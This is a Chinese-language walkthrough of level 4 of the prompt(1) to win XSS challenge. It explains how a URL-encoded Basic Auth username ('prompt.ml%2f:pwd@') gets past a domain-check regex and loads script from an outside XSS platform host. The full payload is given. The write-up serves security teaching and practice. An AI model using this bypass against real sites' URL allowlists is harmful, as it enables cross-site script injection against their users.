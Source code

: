 ## [[prompt(1) to win](http://prompt.ml)] [[Level 4 - Basic Auth](http://prompt.ml/4)] [[解题报告](http://exp-blog.com/2019/03/18/pid-3635/)]

------

## 题目

```javascript
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
}
```

------------

## 解题报告

### 题目分析

这题要要先满足正则条件，才会把我们的输入放到 `<script>` 标签中执行。

换言之若注入成功，得到的 javascript 代码是这样的 `<script src=input />`

问题是若要成功注入，则 input 必须含有这三个固定前缀中的一个：

- `//prompt.ml/`
- `https://prompt.ml/`
- `http://prompt.ml/`

看起来好像无从下手，但实际上这里可以利用 HTTP 的 Basic Auth 认证语法去绕过。


------------

### Basic Auth 语法

当一个网站需要使用 Basic Auth 认证登陆时，若直接访问这个网址，会弹出类似下面这样的要求输入账密的对话框：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2004%20-%20Basic%20Auth/imgs/01.png)

Basic Auth 认证方式也允许在访问网站 `http://host `时，直接在 URL 中加上账密，格式为：

`http://username:password@host`

这种用法其实现在也很普遍的，例如 git clone url 就可以这样用。

> 若一个网址不需要 Basic Auth 认证，同样也可以使用这种方式访问，只是输入的账密会被无视而已。

------------

### 绕过正则

回到这题，我们可以把这个固定前缀 `prompt.ml/` 构造成 Basic Auth 的 `username` 部分。

但是 `username` 不允许出现 `/` 符号，可以对其进行 URL 编码，即 `%2f` 。

注意到题目的代码中会对 `input` 做 `decodeURIComponent(input)` 处理后再进行正则校验，因此即使 `/` 符号被 URL 编码也可以通过正则校验。


------------

### 利用 XSS 平台

至此，我们可以先把 input 构造成这样：`http://prompt.ml%2f:pwd@` （密码部分随便即可）

我们看到此时题目的输出为：`<script src="http://prompt.ml%2f:pwd@"></script>`

由于我们构造的 Basic Auth 是无效的，所以这个输出等价于：`<script src="http://"></script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2004%20-%20Basic%20Auth/imgs/02.png)

这里我们可以利用 XSS 平台构造一个站点执行 `prompt(1)` ，然后把这个站点地址放到 `<script>` 标签即可。


XSS 平台推荐使用 [http://xss.tf](http://xss.tf) ，新建一个项目，自定义代码为 `prompt(1)` ，得到项目地址： `http://xss.tf/RVO` （注意每个人的项目地址都是不同的）。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2004%20-%20Basic%20Auth/imgs/03.png)

利用 XXS 平台的项目地址，构造最终的 payload 为：`http://prompt.ml%2f:pwd@xss.tf/RVO`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2004%20-%20Basic%20Auth/imgs/04.png)


------------

### 一个 BUG

没错，这题是有 BUG 的，前面构造的这个 payload ，在 Chrome 、Edge、360 浏览器都是无法完成挑战的。

打开浏览器开发者工具的 Console ，发现 XSS 请求被 block 掉了。因为 XSS 请求发不出去，导致无法完成挑战。

最终**只有 Firefox 浏览器可以通过**。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2004%20-%20Basic%20Auth/imgs/05.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
